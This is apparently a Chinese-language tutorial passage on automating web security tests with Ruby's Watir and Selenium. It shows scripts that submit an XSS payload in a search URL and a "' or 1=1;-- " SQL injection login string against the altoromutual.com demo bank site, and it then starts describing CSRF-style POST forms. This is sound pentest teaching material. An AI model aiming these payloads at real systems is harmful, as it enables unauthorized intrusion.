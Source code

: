 
有时，您需要从 URL 发送 XSS GET 请求，例如`http://app/search?q=<script>alert</script>`。如果弹出了警报框，您将面临已知错误`Selenium::WebDriver::Error::UnhandledAlertError: Unexpected modal dialog`，但如果刷新页面以发送有效负载，它将起作用，因此解决此问题的方法如下。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
wait = Selenium::WebDriver::Wait.new(:timeout => 15)

begin
    browser.goto("http://www.altoromutual.com/search.aspx?txtSearch=<img src=x onerror=alert(1)>")
rescue Selenium::WebDriver::Error::UnhandledAlertError
    browser.refresh
    wait.until {browser.alert.exists?}
end

if browser.alert.exists?
  browser.alert.ok
  puts "[+] Exploit found!"
  browser.close
end 
```

### POST 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.window.resize_to(800, 600)
browser.window.move_to(0, 0)
browser.goto "http://www.altoromutual.com/bank/login.aspx"
browser.text_field(name: 'uid').set("' or 1=1;-- ")
browser.text_field(name: 'passw').set("password")
btn = browser.button(name: 'btnSubmit').click

# browser.close 
```

> +   由于 Waiter 与 Selenium 集成，您可以同时使用两者来实现一个目标
> +   
> +   由于某些情况下的某些登录情况，您可能需要在输入用户名和密码后添加延迟时间，然后再提交。

## Selenium、Watir 任意 POST 请求

这里我遇到的另一个场景是，我反对没有提交按钮的 POST 请求，换句话说，测试是针对从 jQuery 函数生成的拦截请求，我的情况是一个下拉菜单。因此，解决方法非常简单，只需创建一个包含原始参数加上**提交按钮**（***就像从 POST 表单创建 CSRF 利用一样***) 的 HTML 文件，然后将该 html 文件调用到浏览器中，并像处理正常表单一样处理它。让我们看一个例子。
